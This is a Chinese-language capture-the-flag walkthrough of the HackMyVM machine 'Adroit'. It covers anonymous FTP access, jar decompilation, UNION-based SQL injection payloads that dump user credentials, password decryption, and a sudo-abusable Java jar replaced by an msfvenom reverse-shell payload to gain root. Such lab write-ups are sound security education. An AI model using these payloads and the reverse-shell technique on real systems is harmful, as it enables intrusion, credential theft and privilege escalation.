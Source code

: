 ```yaml
---
{"created":"2024-12-03T16:31:49.199+08:00","tags":["HMV","java反编译","SQL注入"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️","作者":"alienum","aliases":null,"系统":"Linux","permalink":"/24-渗透/HMV/36.Adroit/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/36.Adroit#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/36.Adroit#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/36.Adroit#3. java反编译\|3. java反编译]]
- [[24-渗透/HMV/36.Adroit#4. sql注入\|4. sql注入]]
- [[24-渗透/HMV/36.Adroit#5. 解密密码\|5. 解密密码]]
- [[24-渗透/HMV/36.Adroit#6. 提权\|6. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=Adroit
**作者** alienum
**难度** ⭐️⭐️⭐️⭐️️
## 2. 信息收集
```bash
┌──(root㉿kali)-[~]
└─# fscan -h 192.168.80.11

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.80.11:3306 open
192.168.80.11:3000 open
192.168.80.11:21 open
192.168.80.11:22 open
[*] alive ports len is: 4
start vulscan
[+] ftp 192.168.80.11:21:anonymous
   [->]pub

```
ftp
```bash
ftp> ls -a
229 Entering Extended Passive Mode (|||40570|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Mar 19  2021 .
drwxr-xr-x    3 ftp      ftp          4096 Jan 14  2021 ..
-rw-r--r--    1 ftp      ftp          5451 Jan 14  2021 adroitclient.jar
-rw-r--r--    1 ftp      ftp           229 Mar 19  2021 note.txt
-rw-r--r--    1 ftp      ftp         36430 Jan 14  2021 structure.PNG

```
`structrue.png`
![Pasted image 20241203164149](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203164149.png)

## 3. java反编译
![Pasted image 20241203164747](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203164747.png)
获取到secret `Sup3rS3cur3Dr0it`
![Pasted image 20241203165012](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203165012.png)
域名 `adroit.local`
![Pasted image 20241203165048](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203165048.png)
用户名 `zeus` 域名 `god.thunder.olympus`

添加一个域名 `adroit.local`

尝试运行一下jar包
> 这里我用jdk8运行不了 ，切换到jdk11可以运行

提示输入账户密码 挨个测试即可
```java
┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# java -jar adroitclient.jar
Enter the username :
zeus
Enter the password :
Sup3rS3cur3Dr0it
Wrong username or password   

┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# java -jar adroitclient.jar
Enter the username :
zeus
Enter the password :
god.thunder.olympus
Options [ post | get ] :
get
Enter the phrase identifier :
1

```
`god.thunder.olympus` 就是密码

## 4. sql注入
```bash
┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# java -jar adroitclient.jar
Enter the username :
zeus
Enter the password :
god.thunder.olympus
Options [ post | get ] :
get
Enter the phrase identifier :

1 union select 1,database() -- -
--> adroit

1 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema ='adroit' -- -
-->  ideas,users

1 union select 1,group_concat(column_name) from information_schema.columns where table_name ='users' -- -
--> 
id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS

1 union select 1,group_concat(username,0x3a,password) from users -- -
--> writer:l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=
```
获取到了账户密码 `writer:l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=`
但是密码是加密的

但是加密的
## 5. 解密密码
解密的代码可以在jar包反编译中发现
![Pasted image 20241203172527](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203172527.png)
密钥上面获取到了是 `Sup3rS3cur3Dr0it`
但是注意这里需要将0换成O
所以正确的密钥是 `Sup3rS3cur3DrOit`

参考 [Mikannse的wp](https://mikannse.space/2024/02/17/%E6%89%93%E9%9D%B6%E8%AE%B0%E5%BD%95(%E4%B9%9D%E4%B8%89)%E4%B9%8BHMVAndroit/)对这个进行解密


获取到密码是 `just.write.my.ideas`

## 6. 提权
利用账户密码登录
```bash
writer ： just.write.my.ideas
┌──(root㉿kali)-[/home/kali/hmv/Adroit]
└─# ssh writer@192.168.80.11
writer@192.168.80.11''s password:
Linux adroit 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jan 14 23:14:06 2021 from 10.0.2.15
writer@adroit:~$ id
uid=1000(writer) gid=1000(writer) groups=1000(writer),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
writer@adroit:~$ whoami
writer

```

```bash
writer@adroit:~$ sudo -l
[sudo] password for writer:
Matching Defaults entries for writer on adroit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User writer may run the following commands on adroit:
    (root) /usr/bin/java -jar /tmp/testingmyapp.jar

```

msf生成jar包 反弹shell
```bash
msfvenom -p java/shell_reverse_tcp lhost=192.168.80.5 lport=4444 -f jar -o reverse.jar

writer@adroit:/tmp$ cp reverse.jar  /tmp/testingmyapp.jar
writer@adroit:/tmp$ sudo -u root java -jar /tmp/testingmyapp.jar

[17:54:28] Welcome to pwncat 🐈!                                                                       __main__.py:164
[17:56:16] received connection from 192.168.80.11:51550                                                     bind.py:84
[17:56:17] 0.0.0.0:4444: upgrading from /usr/bin/dash to /usr/bin/bash                                  manager.py:957
           192.168.80.11:51550: registered new host w/ db                                               manager.py:957
(local) pwncat$
(remote) root@adroit:/tmp# whoami
root
(remote) root@adroit:/root# ls
root.txt
(remote) root@adroit:/root# cat root.txt
017a030885f25af277dd891d0f151845
(remote) root@adroit:/root# cd /home/writer/
(remote) root@adroit:/home/writer# cat user.txt
61de3a25161dcb2b88b5119457690c3c
(remote) root@adroit:/home/writer#
```

> 我觉得这个靶场不算难。难点只是在分析java代码那里，不过我看不懂java